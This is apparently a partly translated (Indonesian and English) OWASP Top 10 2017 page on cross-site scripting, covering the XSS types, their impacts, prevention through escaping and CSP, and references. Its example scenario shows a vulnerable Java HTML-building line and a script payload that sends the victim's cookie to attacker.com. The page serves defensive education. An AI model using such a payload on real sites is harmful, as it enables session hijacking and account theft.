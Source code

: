 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Automated tools / Tool dengan fitur otomatis dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah bug / vulnerabilty paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Automated tools dapat menemukan beberapa bug XSS  secara otomatis, Khusunya dalam aplikasi pemrograman yang sudah matang seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

* **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web lubang air berbahaya, iklan, atau sejenisnya
* **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
* **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk _session stealing, account takeover, MFA bypass_, _DOM node replacement_ atau perusakan pada halaman website atau _defacing_ (seperti panel trojan login), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## How To Prevent

Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:

* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

## Example Attack Scenario

**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
The attacker modifies the ‘CC’ parameter in the browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

## References

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
